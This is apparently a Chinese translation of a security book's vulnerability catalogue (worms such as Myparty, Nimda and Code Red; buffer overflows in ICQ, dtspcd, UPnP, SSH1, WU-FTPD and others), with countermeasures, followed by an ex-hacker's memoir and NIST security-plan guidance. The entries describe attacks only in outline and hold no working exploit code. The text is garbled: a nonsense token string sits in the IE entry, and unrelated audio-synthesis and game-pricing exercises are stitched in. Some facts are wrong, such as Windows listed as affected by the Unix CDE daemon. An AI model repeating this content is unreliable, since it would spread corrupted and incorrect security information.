与许多系统一样，恶意代码包括蠕虫和病毒可能严重影响业务连续性目标。往小了说，它们会分散当前工作的注意力；往大了说，它们可能造成严重损害。虽然它并不是"严重破坏性的"，但 W32/Myparty 蠕虫确实有造成业务中断的潜力，而且不幸的是，许多这类蠕虫是专门针对 Microsoft 产品编写的。

所有 Microsoft Windows 系统都可能受到影响。

作为电子邮件附件发送的 W32/Myparty 蠕虫包含在执行时传播的恶意代码。该电子邮件对不警惕的用户来说似乎是无害的，他们可能会被其内容所引诱。电子邮件的主题行显示为："我聚会的新照片。"正文写道：

> 你好！
> 我的聚会……简直棒极了！
> 我附上了包含新照片的网页！
> 如果可以，请帮我把照片印成彩色的。谢谢！

附件 www.myparty.yahoo.com 有两个已知的变体，虽然两者执行相同的操作，但它们是不同的。第一个在用户的启动文件夹中创建一个名为 mtask.exe 的文件；第二个将文件 regctrl.exe 写入 Windows 9x 机器的 c:\\Recycled 文件夹。附件能够做到这一点是因为它具有 .com 扩展名。虽然通常这指的是互联网上的顶级域名，但在这种情况下它被用作可执行文件（.com 和 .exe 文件等可以在本地机器上执行）。电子邮件看起来完全无害，实则不然。一旦新创建的文件（mtask.exe 文件等）被执行，它们就会扫描机器上的文件以查找通讯录。获取到的任何电子邮件地址都会收到附有该蠕虫的消息。还有信息表明，发送邮件消息可能是与时间相关的，这意味着如果日期设置为 1 月 25 日至 29 日，蠕虫会将自己附加到消息中；如果不是，则可能不会。然而，有足够的证据怀疑存在不遵循此模式的变体。

**应对措施。** 尽可能关闭电子邮件客户端中的自动预览选项。确保使用充分且最新的病毒防护。对终端用户进行良好的电子邮件实践教育：指导他们在不知道发件人是谁或标题似乎与工作无关时要小心，如果消息有附件，打开时要小心。最后，使用允许删除已知恶意流量和消息类型的防火墙产品。

## 黑客攻击 59：AOL-ICQ 中的缓冲区溢出

**漏洞。** ICQ Windows 客户端在处理语音、视频和游戏消息时发生缓冲区溢出。

**受影响系统。** 2001B 版本之前的所有 ICQ 客户端版本。

**入侵检测。** ICQ 可用于通过 ICQ 服务器在用户之间交换消息，或通过建立直接连接。当在请求用户参与第三方应用程序期间或在修改后的直接连接请求期间处理 Type Length Value（TLV）0x2711 时，可能发生此漏洞。

**应对措施。** ICQ 2001B 版本包含一个外部插件，允许易受攻击的客户端被 ICQ 服务器引导以通过外部插件禁用该漏洞。*所有* 2001B 之前的版本都不包含外部插件，容易受到攻击。AOL 建议升级到版本 2001B beta v5.18 build 3659（www.icq.com/download/）。为了阻止试图利用此漏洞的消息，AOL 也修改了 ICQ 服务器。然而，攻击者使用其他手段（包括欺骗和中间人攻击）仍然可能造成缓冲区溢出情况。因此，如果不需要该服务，建议将其禁用。

## 黑客攻击 60：CDE 子进程控制服务漏洞的利用

**漏洞。** CDE 是用于 Linux 和*NIX 的图形用户界面，使用网络守护进程 dtspcd。修改后的数据包可能导致缓冲区溢出，允许攻击者以 root 权限执行任意代码。

**受影响系统。** Microsoft Windows 98、98SE、XP 和 ME。

**入侵检测。** 通过 inetd 或 xinetd 的 CDE 客户端请求可以生成 dtspcd 守护进程。网络守护进程 dtspcd 通常使用 TCP 端口 6112 并以 root 权限运行，是 CDE 子进程控制服务，处理来自客户端的远程启动应用程序请求。dtspcd 使用的共享库可能在客户端协商过程中发生缓冲区溢出。与许多缓冲区溢出情况一样，攻击者可能以 root 权限运行恶意代码。当修改后的数据包被发送到固定的 4K 缓冲区并指定大于 4K 的值时，就会发生溢出，导致 4K 缓冲区末尾的内存被覆盖。

**应对措施。** 通常建议禁用所有不需要的服务。但是，重要的是要了解这在您的环境中会产生什么总体影响。因此端口 6112 被一些互联网游戏使用，这可能需要考虑在内。一些制造商已发布针对此漏洞的补丁。查看制造商的网站以确定是否有可用的补丁。请注意，dtspcd 在某些系统上默认启用，因此如果没有可用的补丁，并且在仔细确定不需要它之后，您将必须明确拒绝或禁用 dtspcd。这可以通过使用防火墙产品阻止端口或禁用服务来实现。可以通过注释掉启用服务的行来禁用该服务。您可以通过查看以下内容之一来确定 dtspcd 是否已启用：

```
/etc/services
dtspc 6112 /tcp
```

或

```
/etc/inetd.conf
dtspc stream tcp nowait root  /usr/dt/bin/dtspcd  /usr/dt/bin/dtspcd
```


 ## 黑客攻击 61：Microsoft Windows UPnP 服务中的缓冲区溢出

**漏洞。** Microsoft 的 UPnP 服务存在漏洞。如果启用了 UPnP，此漏洞可能允许攻击者以管理访问权限执行任意代码。

**受影响系统。** Windows 98、98SE、ME、XP。

**入侵检测。** UPnP 服务在 Windows XP 上默认启用，在 Windows ME 上默认禁用（部分计算机制造商在其 ME 机器上启用了 UPnP）。UPnP 可以选装在运行 Windows 98 和 98SE 的 PC 上。存在两个主要漏洞：

- NOTIFY 指令用于通告 UPnP 设备的可用性。利用处理这些指令的代码中存在的缓冲区溢出漏洞，攻击者可以通过向易受攻击的 PC 发送任意或恶意的 NOTIFY 指令来获得管理访问权限（包括获得完全的系统控制权）。

- 攻击者可以对受影响的机器发起 DoS 攻击，或者利用该机器对另一台机器发起 DoS 攻击。

**对策。** 可以采取两种对策：第一种是为受影响的特定操作系统应用适当的 Microsoft 补丁，可从 www.microsoft.com/technet/security/bulletin/MS01-059.asp 获取；第二种是拒绝外部访问 UPnP 使用的端口 1900 和 5000。这可以通过在过滤不需要的流量设备（通常是防火墙）上阻止这些端口来实现。

## 黑客攻击 62：Microsoft Internet Explorer 不遵守 Content-Disposition 和 Content-Type MIME 标头

**漏洞。** 在使用 Internet Explorer 6.0、Outlook、Outlook Express 或其他使用 Internet Explorer 渲染引擎的软件时，本不应打开和/或执行的文件可能实际上被打开和执行。

**受影响系统。** Microsoft Internet Explorer 和使用 Internet Explorer 渲染引擎的软件。

**入侵检测。** 由于网页可以包含文件附件，因此存在一种确定文件类型的方法。这是通过 MIME 标头实现的，特别是 Content-Disposition 和 Content-Type。这些标头决定文件是否"安全"可以打开。然而，它们仅在确定过程中使用，而在反转系统（ arcsinh-43-snmputils-89-ObjectType-DATA_index_4-system-5 )( file execution )过程中并不使用。如果 MIME 标头错误地表示文件类型，本不应处理的文件可能实际上被处理。例如，如果 MIME 将可执行文件 (.exe) 表示为 TIF，MIME 会认为该文件没有问题并允许其执行。这使攻击者能够运行原本无法以用户权限执行的代码。

**对策。** 应用 Microsoft 最新的 IE 补丁。如果无法实现，请在所有安全区域中禁用文件下载。请注意，禁用文件下载将改变 IE 的功能。有关补丁的更多信息，请访问 www.microsoft.com/technet/security/bulletin/MS01-058.asp

## 黑客攻击 63：Secure Shell 守护进程

**漏洞。** SSH1 协议中存在的漏洞可能允许攻击者以 SSH 守护进程权限执行任意代码。此外，通过针对补偿攻击检测器的暴力破解攻击，可能实现完全的系统入侵。

**受影响系统。** 运行 SSH 协议的系统。

**入侵检测。** 许多 SSH 漏洞已经被报告，此漏洞公告的发布主要是为了确保系统管理员意识到漏洞的存在。这里讨论两个漏洞。第一个是在多个 SSH1 协议实现中存在的远程整数溢出漏洞。detect_attack 函数将连接信息存储在动态哈希表中。检查此表以帮助检测和响应 CRC32 攻击。攻击者可以发送一个数据包，导致 SSH 创建大小为零的哈希表。当 detect_attack 函数尝试将信息存储到哈希表中时，可以修改函数调用的返回地址。这允许以 SSH 权限（通常为 root）执行任意代码。第二个漏洞是补偿攻击检测器漏洞。

通过暴力破解攻击，入侵者可以获得对受影响机器的完全访问。报告显示，系统日志中可能出现许多类似于以下内容的 messages：

```
hostname sshd[xxx]: Disconnecting: Corrupted check bytes on input
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
hostname sshd[xxx]: Disconnecting: crc32 compensation attack: network attack detected
```

一旦系统被入侵，报告显示会安装木马、设计用于寻找其他易受攻击系统的网络扫描设备，以及其他旨在隐藏入侵者行为并允许将来访问的工具。

**对策。** 查看制造商的网站以获取最新的安全信息。如果可能，升级到最新版本的 SSH。升级后，确保使用 SSHv2，因为 SSH2 有可能使用 SSH1 实现信息。如果无法升级，请为正在使用的 SSH 版本应用所有最新的补丁。与许多服务一样，如果不需要 SSH，请拒绝访问该服务。

## 黑客攻击 64：WU-FTPD 中的多个漏洞

**漏洞。** WU-FTPD 守护进程被许多 *NIX 和 Linux 系统用于提供 FTP 服务，通常具有 root 权限。存在的漏洞可能允许远程攻击者在受影响的系统上执行任意代码。

**受影响系统。** 运行 WU-FTPD 以及 WU-FTPD 任何衍生版本的系统。

**入侵检测。** 具体来说，两个漏洞可能导致这种情况。首先，WU-FTPD 不能正确处理文件名 globbing。Globbing 是一个术语，表示选择多个文件和位置的能力。然而，WU-FTP 不使用操作系统内的库，而是实现自己的代码来完成此功能。与许多进程一样，WU-FTPD 创建一个堆来存储这些多选信息。使用堆信息作为比较，代码可以评估和识别无效的语法信息。可以发送特定字符串到 globbing 代码，使其不会导致失败发生。这样做会导致代码像没有发生错误一样运行。当这种情况发生时，未分配的内存可能会被释放。该区域可用于放置数据，使攻击者能够以与 WU-FTP 守护进程相同的权限执行任意代码。

第二个 WU-FTP 漏洞可能在 WU-FTP 配置为使用 auth 或 authd (RFC931) 认证接受入站连接时发生。当 WU-FTP 配置为使用此认证并以调试模式运行时，连接信息会被记录。对 identd 响应中包含的信息未执行充分的输入验证。因此，攻击者可以设计一个响应，允许以与 WU-FTP 守护进程相同的权限执行任意代码。

两个漏洞都包括能够登录到存在这些漏洞的服务器的用户，包括匿名访问。如果尝试不成功，可能会导致 FTP 服务停止。

**对策。** 从您的 UNIX 或 Linux 版本的供应商处安装最新的补丁。由于 WU-FTP 可以编译运行在许多版本的 UNIX 或 Linux 上；如果您的供应商未随其版本提供 WU-FTP，您可以应用可用的源代码补丁。如果您不需要 WU-FTP 访问，请禁用它。如果您正在使用 WU-FTP，请仅向需要它的用户授予访问权限。这包括根据需要禁用匿名访问。

## 黑客攻击 65：宏的自动执行

**漏洞。** Excel 和 PowerPoint 平台中存在的漏洞可能允许攻击者运行任意代码并以用户的权限获得访问权限。

**受影响系统。** Windows：Microsoft Excel 2000、Microsoft Excel 2002、Microsoft PowerPoint 2000、Microsoft PowerPoint 2002；Macintosh：Microsoft Excel 98、Microsoft Excel 2001、Microsoft PowerPoint 98、Microsoft PowerPoint 2001。

**入侵检测。** 虽然此漏洞涉及 Excel 和 PowerPoint，但 Microsoft Office 套件中的其他产品也可能受到影响。通常，在宏执行之前，会询问用户是否想要执行宏。此漏洞将允许攻击者精心制作一个宏，绕过此安全检测并自动执行。该宏可能允许执行任意代码以试图获得特权访问（在易受攻击的系统上具有用户的权限）。如果成功，攻击者可能有能力读取、删除或修改用户有权访问的任何驱动器（包括共享）上的文件/数据。此外，攻击者可能能够发送邮件和进行配置更改。请记住，如果用户具有管理访问权限，攻击者也可能获得管理访问权限。这可能允许攻击者修改其他系统。

**对策。** 应用可用的最新补丁。确保使用最新的病毒防护。在可能的情况下，将 Microsoft 产品中的安全设置设置为最高级别。如果可能，更新到最新版本的 Microsoft 产品（Microsoft 不再继续支持某些较旧版本的产品）。对用户进行有关宏及其恶意使用潜力的教育。

## 黑客攻击 66：NIMDA 蠕虫

**漏洞。** NIMDA 蠕虫可能导致完全的系统入侵。


 ## 处理后的文本

**受影响系统。** 运行 Windows 95、98、98SE、ME、NT 和 2000 的 Microsoft 系统。

**入侵检测。** Nimda（"admin"的倒拼）是一种蠕虫，它试图通过多种途径传播自身，例如通过电子邮件、感染本地文件和网络共享文件、利用目录遍历漏洞感染易受攻击的 IIS 服务器，以及扫描其他木马（如 Sadmind 和 Code Red II）留下的后门。当 Web 服务器被感染时，浏览该 Web 服务器的客户端也可能被感染。Nimda 利用 .htm 文件和 MAPI 服务获取电子邮件地址，然后使用 MIME 编码的电子邮件附件将自身发送到这些地址。此过程每 10 天重复一次。

**应对措施。** 由于 Nimda 蠕虫使用多种传播方法，且尽管某些公司提供清除程序，如果系统被感染，建议的根除方法是将受感染的机器从任何网络中移除，并使用"清理"驱动器的工具擦除驱动器。实现此目的的一种方法是使用硬盘工具向驱动器写入 ones 和 zeros，以销毁任何现有数据。驱动器清理完成后，从已知无病毒的介质重建机器。制造商 CD 通常是一个不错的起点。系统重建后，应用制造商推荐的补丁。还强烈建议安装并保持最新的防病毒软件包。此外，在可能的情况下禁用 JavaScript；这将限制系统因浏览受感染的 Web 服务器而被感染的可能性。

对终端用户进行如何处理可疑或未知电子邮件及附件的教育：指导他们不要自动打开电子邮件或附件。在可能的情况下禁用预览功能。通常情况如此，通过采用可靠过滤程序可以限制（不一定是避免）漏洞的影响。使用防火墙（或能够进行端口过滤的路由器）阻止不必要的端口流量。可以在所有不需要向公众发布设备上阻止 TCP 端口 80。可以通过阻止蠕虫下载到其他设备来阻止 UDP 端口 69。

## 黑客攻击 67：Code Red 蠕虫

**漏洞。** Code Red 蠕虫可能导致拒绝服务或系统停止/重启。具有其他功能以在崩溃时自动重启的系统可能会重新启动，这使得问题不太明显。

**受影响系统。** 启用了 IIS 4.0 或 5.0 并安装了 Index Server 2.0 的 Windows NT 4.0；启用了 IIS 4.0 或 5.0 并安装了索引服务的 Windows 2000；运行 IIS 的 Cisco 系统；未打补丁的 Cisco 600 系列 DSL 路由器。

### 入侵检测

Code Red 蠕虫利用 Microsoft IIS 索引服务中的缓冲区溢出漏洞。其变体在不同时间/日期执行不同的活动。从每月 1 日到 19 日，Code Red 变体将尝试通过连接随机选择系统的 TCP 端口 80 来传播。如果系统正在运行 IIS 4.0 或 5.0 且未应用补丁，则很可能被感染。蠕虫的副作用可能导致处理请求的 Cisco 600 系列 DSL 路由器停止转发数据包。由于蠕虫试图传播，网络设备和路由器上的流量和处理量可能会明显增加。从每月 20 日到 27 日，蠕虫将对特定 IP 地址（198.137.240.91）运行数据包洪水 DoS 攻击。在第 27 天结束时，蠕虫进入休眠状态直到下个月 1 日。感染的影响可能包括性能下降直至拒绝服务和网站被篡改，并可能导致远程攻击者获得管理权限（IIS 索引服务的权限）。Code Red 蠕虫利用 IIS 4.0 服务器中启用 URL 重定向的漏洞导致系统崩溃。此 DoS 攻击与允许 Code Red 蠕虫入侵系统的漏洞不同。

## 应对措施

将系统从网络中移除，重启并应用适当的补丁。已知版本的 Code Red 蠕虫是常驻内存的，因此可以通过重启系统来清除。系统打补丁后，建议执行以下操作：

- Code Red 蠕虫尝试在 TCP 端口 80 上进行初始连接，因此从所有不需要访问该端口的机器上阻止该端口。这有助于减少 Code Red 蠕虫的漏洞。
- 在不需要 IIS 服务的所有机器上禁用 IIS 服务。
- 蠕虫可以感染多个系统，因此如果有一个系统已被感染，请检查所有系统是否感染蠕虫。
- 运行最新的防病毒程序并保持更新。
- 对所有系统应用适当的补丁。

## 黑客攻击 68：轻量级目录访问协议多个实现中的漏洞

### 漏洞

存在多种可能导致未经授权的 root 访问和任意代码执行的漏洞：BSD 行式打印机守护进程中可能发生缓冲区溢出情况；AIX 行式打印机守护进程中可能发生缓冲区溢出情况；sendmail 漏洞可能允许 root 访问；可能使用伪造 DNS 绕过主机名认证；HP-UX 行式打印机守护进程中可能发生缓冲区溢出情况。

### 受影响系统

使用 LDAP 的系统。

### 入侵检测

BSD 行式打印机守护进程中可能发生缓冲区溢出情况。如果攻击者使用列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，他或她可以随后发送专门构造的打印作业到打印机并请求显示打印队列，以导致缓冲区溢出发生。攻击者可以利用溢出情况以行式打印机守护进程的权限（可能是超级用户）执行任意代码。

- AIX 系统行式打印机守护进程中可能发生缓冲区溢出情况。如果攻击者：
  - 使用列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，他或她可以利用 kill_print() 缓冲区溢出漏洞导致 DoS 情况发生或获取行式打印机守护进程的权限（通常为 root 权限）。
  - 使用列在易受攻击系统的 /etc/hosts.equiv 或 /etc/hosts.lpd 文件中的系统，他或她可以利用 send_status() 缓冲区溢出漏洞导致 DoS 情况发生或获取行式打印机守护进程的权限（通常为 root 权限）。
  - 使用能够控制 DNS 服务器的系统，他或她可以利用 chk_fhost() 缓冲区溢出漏洞导致 DoS 情况发生或获取行式打印机守护进程的权限（通常为 root 权限）。
- Sendmail 漏洞可能允许 root 访问。由于行式打印机守护进程允许将选项传递给 sendmail，攻击者可以使用这些选项指定不同的配置文件。这可能允许攻击者获取 root 访问权限。
- 可能使用伪造 DNS 绕过主机名认证。通常，多个系统附带的行式打印机守护进程存在漏洞，在不应该授予访问权限时授予访问权限。如果攻击者能够控制 DNS，攻击者的 IP 地址可能被解析为打印服务器的主机名。在这种情况下，即使不应该授予访问权限，也会授予访问权限。
- HP-UX 行式打印机守护进程中可能发生缓冲区溢出情况。rpldaemon 在 HP-UX 系统上提供网络打印功能。然而，rpldaemon 包含的漏洞容易受到专门构造的打印请求的攻击。此类请求可用于在易受攻击的系统上创建任意目录和文件。由于 rpldaemon 默认以超级用户权限启用，远程攻击者可能获取系统的超级用户访问权限。由于不需要现有系统知识，且 rpldaemon 默认启用，这些系统是攻击者的主要目标。

**应对措施。** 应用适当的供应商补丁以解决特定问题。还建议禁用任何不需要使用的服务。如果需要网络打印服务，可以使用防火墙（或能够进行 TCP 过滤的路由器）限制仅需要该服务的设备访问。

## 黑客攻击 69：OpenView 和 NetView 中的漏洞

**漏洞。** OpenView 和 NetView 中的漏洞可能导致远程攻击者获得管理访问权限。OpenView 和 NetView 分别是 Hewlett-Packard 和 IBM 的网络管理产品。OpenView 和 NetView 的 ovactiond SNMP 陷阱处理程序中的漏洞允许远程攻击者以 ovactiond 进程的权限执行任意代码。

**受影响系统。** 在以下平台上运行 HP OpenView Network Node Manager (NNM) 6.1 版的系统：

- 运行 HP-UX 10.20 和 11.00 版本（仅限）的 HP9000 服务器
- Sun Microsystems Solaris 2.x 版本
- Microsoft Windows NT4.x / Windows 2000

在以下平台上运行 Tivoli NetView 5.x 和 6.x 版本的系统：

- IBM AIX
- Sun Microsystems Solaris
- Compaq Tru64 UNIX
- Microsoft Windows NT4.x / Windows 2000

**入侵检测。** 该漏洞存在于 Windows 和 *NIX 平台上。远程攻击者可能获取 Windows 平台上的管理访问权限和 *NIX 平台上的 root 访问权限。Windows 系统上的 ovactiond 进程通常配置为在本地系统安全上下文中运行，而 *NIX 平台则以 user/bin 身份运行（攻击者可能使用 user/bin 访问权限获取 root 访问权限）。由于 NT 和 *NIX 平台都可以具有信任关系（通常如此），远程攻击者也可能获取对这些设备的访问权限。OpenView 6.1 的默认配置存在漏洞。默认配置

其他 OpenView 版本，以及 NetView 5.x 和 6.x 的默认配置不受此漏洞影响。然而，其中任何版本在特定修改后都可能变得易受攻击。在 OpenView 上，如果 trapd.conf 文件被修改，可能会出现这种情况。在 NetView 上，如果授权用户配置了额外的事件操作并指定了潜在破坏性的 varbinds，则可能存在该漏洞。

**应对措施：** 查看操作系统厂商的 OpenView 网站，找到适合您版本的 OpenView 或 NetView 的补丁。应用该补丁。

## 黑客攻击 70：IIS 索引服务 DLL 缓冲区溢出

**漏洞。** Microsoft IIS 的索引服务存在缓冲区溢出漏洞。

**受影响系统。** 运行 Microsoft Windows NT 4.0 且启用了 IIS 4.0 或 IIS 5.0 的系统；运行 Microsoft Windows 2000（专业版、服务器版、高级服务器版、数据中心服务器版）的系统；运行 Microsoft Windows XP 测试版的系统。

**入侵检测。** 运行上述程序但未安装补丁的系统，容易受到来自远程系统的任意代码执行攻击。

**应对措施。** 将系统从网络中移除，重新启动，并应用适当的补丁。对于 Windows NT 4.0，补丁可在 www.microsoft.com/Downloads/Release.asp?ReleaseID=30833 找到；对于 Windows 2000 专业版、服务器版和高级服务器版，请访问 www.microsoft.com/Downloads/Release.asp?ReleaseID=30800。

## 黑客攻击 71：Microsoft IIS 缓冲区溢出漏洞

**漏洞。** 通过此漏洞，攻击者可能能够在计算机上执行任意代码。这可能最终使攻击者获得在该计算机上以管理权限操作的权限。

**受影响系统。** 运行 Windows 2000 且带有 IIS 5.0 的系统。

**入侵检测。** 当前未安装补丁的系统存在被此漏洞利用的风险。

**应对措施。** 应用适当的 Microsoft 补丁。补丁可在 www.microsoft.com/Downloads/Release.asp?ReleaseID=29321 获取。

## 黑客攻击 72：移动代码（Java、JavaScript 和 ActiveX）攻击

**漏洞。** 恶意 Web 开发人员可能会将脚本附加到您发送给网站的内容上，例如 URL、表单中的元素或数据库查询。当网站向您响应时，恶意脚本会随之而来，从而进入您的浏览器。

**受影响系统。** 所有系统。

**入侵检测。** 可能的后果包括捕获您的密码和其他您认为受保护的信息。恶意脚本可用于将您组织本地网络（如内部网）的受限部分暴露给互联网上的攻击者。攻击者还可能利用恶意脚本感染 cookies 并植入自身副本。如果受感染的 cookie 被发送回易受攻击的网站并传回您的浏览器，恶意脚本可能会再次运行。注意：这不是 Web cookie 的漏洞，而是恶意脚本利用了 cookies 的*功能特性*。

**应对措施。** 禁用 Web 浏览器中的所有脚本语言，可以最大程度地避免此漏洞造成的影响。

## 黑客攻击 73：远程 Shell 访问

**漏洞。** 远程 Shell 访问使用 rsh，它执行单独的 shell 命令。这可能造成漏洞，允许从任意主机进行远程 shell/远程登录。

**受影响系统。** 使用 rsh 服务的系统。

**入侵检测。** 由于远程 shell/远程登录信任网络上的每台主机，攻击者无需 root 权限即可获得系统访问权限。文件和程序可能被修改或删除，密码可能被更改。攻击者可能对系统造成无限的破坏。

**应对措施。** 确保 /etc/hosts.equiv 和 .rhosts 仅包含受信任的主机。删除或禁用任何没有密码的账户。

## 黑客攻击 74：数据包泛洪

**漏洞。** 系统可能容易受到特定的 ICMP 和 UDP 泛洪攻击。

**受影响系统。** 所有系统。

**入侵检测。** 如下所述：

- **Smurf。** Smurf 攻击以及此类其他攻击（如 Fraggle 和 Papasmurf）构成了一类针对主机的网络级攻击。Smurf 及类似攻击开始时，黑客向子网广播地址（例如 xxx.xxx.xxx.255；255 表示这是广播地址）发送大量 ICMP 回显（PING）流量。此流量将具有伪造的返回地址，即攻击预期受害者的地址。当网络上的各个主机收到 ICMP 回显请求时，它们会回复回显应答。这些回复将全部发送到原始 ICMP 回显请求中伪造的地址。在拥有大量系统的网络上，生成的流量可能非常巨大。作为攻击受害者（由伪造的 IP 地址指示）的系统很快会被传入的流量淹没，几乎必定会失去与互联网的连接。

  此类攻击运行时有两个受害者：被利用来生成 ICMP 流量的网络（称为*中间*或*辅助*网络），以及由伪造 IP 地址指示的系统。

- **Fraggle。** Fraggle 拒绝服务攻击本质上基于与 Smurf 攻击相同的概念（即，生成大量网络流量会使机器瘫痪或导致其失去与互联网的连接），但使用 UDP 而非 ICMP。尽管它不像其他此类攻击那么严重，但仍将产生大量网络流量。

- **UDP Flood。** UDP 泛洪攻击利用已知会回复数据包的 UDP 服务。其工作原理如下：黑客拥有一份广播地址列表，向这些地址发送伪造的 UDP 数据包。通常，数据包被定向到目标计算机的 7 号端口，即回显端口。其他时候，它被定向到 chargen 端口（查询时生成若干字符的端口）。有时黑客能够在回显端口和 chargen 端口之间建立循环，产生更多的网络流量（此攻击通常对 NT 机器有效）。该攻击的结果是网络上出现大量流量。整个网络可能陷入停滞，个别系统可能失去与互联网的连接，在某些情况下甚至会崩溃。

**应对措施。** 从您的 perimeter 防火墙和/或网关路由器过滤或阻止受影响的协议和/或端口。务必配置路由器以禁止 IP 定向广播传输（例如，在 Cisco 路由器上，使用 "no ip directed-broadcast" 命令）。

## 黑客攻击 75：Oracle9iAS Web 缓存缓冲区溢出漏洞

**漏洞。** Oracle9iAS 中存在的 Web 缓存漏洞可能导致远程攻击者获得系统访问权限。缓冲区溢出条件可允许远程攻击者执行任意代码，并以 Web 缓存进程的权限获得访问权限。此外，入侵者还可以中断正常的 Web 缓存操作。

**受影响系统。** Oracle9iAS。

**入侵检测。** Oracle9iAS 默认启用四项 Web 服务：传入缓存代理（TCP 1100）、管理端口（TCP 4000）、XML 失效端口（TCP 4001）和统计信息（TCP 4002）。这四个端口都容易受到远程攻击者的缓冲区溢出攻击。一旦攻击者获得访问权限，他可能能够在数据流经 Web 服务器时修改数据。攻击者还可能利用 Web 服务器与另一设备之间的现有信任关系来访问其他系统。

**应对措施。** 应用 Oracle 的最新补丁。此外，禁用不需要的服务。如果无法禁用服务，使用防火墙（或支持 TCP 端口过滤的路由器）将端口访问限制为仅需要它的用户。

## 下一步

除本文所述各项漏洞之后推荐的解决方案外，强烈建议在实施漏洞缓解措施后进行*高级安全审查*。请联系第三方安全咨询公司进行订购，或访问 www.tigertools.net/scanchinese.htm。

此外，建立补丁实施计划表，以便每周及时了解未来的漏洞和安全公告。如果您没有资源来实施此类系统，您的安全顾问可以在这方面为您提供协助。至少，您可以通过电子邮件免费订阅 TigerTools.net 月刊，请点击此处：http://www.TigerTools.net/monthly.htm


 ## 综合应用

在此阶段，我们将此前各阶段老虎小组的全部信息整合起来，形成一份无懈可击的安全策略——或者说是一项关于下一步行动的规划。正如任何成功的平台迁移、基础设施集成或关键软件实施一样，必须从预先规划的文档入手。花时间起草一份列明后续步骤的提纲，可以规避无数问题和矛盾。让我们特别审慎地仔细审视本阶段的建议，将其中适用于您自身需求的部分加以应用，同时起草您的个性化安全策略。

## 量化的优势

- 比 PCM 更有效地利用比特

- 如果声音源自计算（例如，FM 合成），则信号生成可以以音频速率进行，而非控制速率

### 练习

1. 假设您的乐器要经过高通滤波器滤波：会出现什么问题？如何通过改变作曲来避免这些问题，又如何通过改变乐器来避免？

2. 假设一个"波形"具有图示形状：它的振幅是多少？锯齿波的振幅为多少时，可以使其功率与正弦波的功率相等？（图中显示了一个周期信号的一个完整周期，具有急剧的跳变和线性的斜率。）

3. 控制机器人（即将信号转化为物理运动）是否需要极长的查找表，从而导致过多的延迟，这是真的吗？如果是，请建议对机器人进行改进以缓解这一问题。

4. 假设我们有一个以"金币"为单位在内部表示的"安全等级"变量。如果计算机显示物品的购买价格，且我们希望采用指数安全曲线（这与本章讨论的曲线有何不同？），那么您会从内部值计算什么公式来得到价格？相反，如果我们希望玩家感知到等额价格增长对应等额努力，但有一个预先计算好的价格表，该如何查找？

## 第六幕

## 终幕：重生

在那次"黑客大会"上，我意识到其真正目的是招募新成员来操控新的黑客攻击，这让我置身于人生的十字路口。我犯过不少错误，也为此付出了代价。我很感激自己选择了这条道路，让我能够站在这里向您讲述这段旅程。对我而言，这确实是通往自由之路，因为我选择不随波逐流，而是相信自己的直觉，为善行做出改变。

我选择放弃那些密谋团伙、患有上帝情结的愤世嫉俗者，以及毫无出路的工作。我选择研读技术书籍、参加考试、获取认证，在这一过程中我也获得了宝贵的经验。我的目标是做自己喜欢的事，并因此获得报酬。我与大型咨询公司合作，逐步晋升。

我对刚进入这一领域的人的建议是：直言不讳，不怕犯错，最重要的是永不放弃。花时间自学，不要找借口；不要等待雇主施予。如果没有余钱购买技术出版物，就多泡在书店里，从网络拍卖会上购买二手书，或在线免费学习。

没错：我要对所有黑客高手说，远离恶意团伙，运用您的知识和经验获取认证，合法地从事您最爱的事情并因此获得报酬。受雇去入侵目标网络、窃取、欺骗、嗅探和监视。受雇去交出这些信息并强化公司网络安全。做出改变，同时改善您的生活水平。从阴影中走出来，进入光明……进入您的新家、新家庭、新职业、新事业或新企业的光明之中。这条道路上有更多的荣耀。与其黑掉比尔·盖茨然后被抓、被起诉、沦为失败者，不如让比尔花钱雇您这么干，这才是更好的主意。

# 第7章

## 安全策略

信息技术安全策略如今是所有人深切关注的问题，无论身处公共部门还是私营部门；每个人都希望保护自己及其信息免受日益增长的黑客攻击事件的侵害。强有力的安全策略是在这一领域取得成功防御的基础。为了帮助您制定自己的安全策略，本章第一部分摘自广受好评的安全锁定文档之一：美国国家标准与技术研究院（NIST）计算机安全部门专家玛丽安·斯旺森（Marianne Swanson）1998年撰写的《信息技术系统安全计划开发指南》。鉴于保护联邦政府机密信息、服务和基础设施的需要，这些准则可被视为任何组织制定计划或策略的宝贵原则。

该文档中描述并在此提取的策略组成部分包括：

- 计划制定
- 分析
- 下一阶段程序

> 《信息技术系统安全计划开发指南》虽为联邦政府机构的员工作品，但其内容可轻松转用于私营部门。

本章应被视为《黑客攻击揭秘（第二版）》及本书迄今所涵盖全部信息的实施应用。

### 策略指南

系统安全规划的目标是改进信息技术（IT）资源的保护。作为首要示例，所有联邦系统以及大多数企业系统都具有一定程度的敏感性，需要作为良好管理实践的一部分加以保护。系统的保护必须记录在安全计划中。

*[注：原文此处有遗漏，"evolutionary, and technical controls"前应有内容]*

进化和控制技术。由于安全计划确立并记录了安全控制措施，它应构成授权的基础，并在需要时辅以更具体的研究。此外，对控制措施的定期审查也应有助于未来的授权。在发生重大处理变更之前应进行重新授权，但至少每三年一次。在风险高且潜在危害大的情况下，应更频繁地进行。

#### 引言

当今快速变化的技术环境要求各机构采用最低限度的管理控制措施来保护其信息技术（IT）资源。这些管理控制措施针对单个信息技术用户，以反映当今技术的分布式特性。技术和控制措施支持管理控制措施。要发挥效用，这些控制措施必须相互关联。

#### 主要应用或通用支持系统计划

所有被归类为"主要应用"或"通用支持系统"的应用和系统都必须由系统安全计划覆盖。其他应用不需要具体的安全计划，因为这些应用或系统的安全控制将由其运行的通用支持系统提供。例如，一个部门范围的财务管理系统将是一个主要应用，需要其自身的安全计划。一个旨在追踪办公室预算支出的本地程序可能不被视为主要应用，将由办公自动化系统或局域网（LAN）的通用支持系统安全计划覆盖。标准商业现成软件（如文字处理软件、电子邮件软件、实用程序软件或其他通用软件）通常不被视为主要应用，将由其安装所在的通用支持系统的计划覆盖。

#### 安全计划的目的

系统安全计划的目的在于：

- 提供系统安全要求的概览，并描述已实施或计划实施的控制措施以满足这些要求。

- 明确界定访问该系统的所有个人的责任和预期行为。

#### 安全计划的责任

系统所有者负责确保安全计划的制定，并负责实施计划和监督其有效性。安全计划应反映对系统负有责任的各类人员的意见，包括职能"最终用户"、信息所有者、系统管理员和系统安全经理。

#### 推荐格式

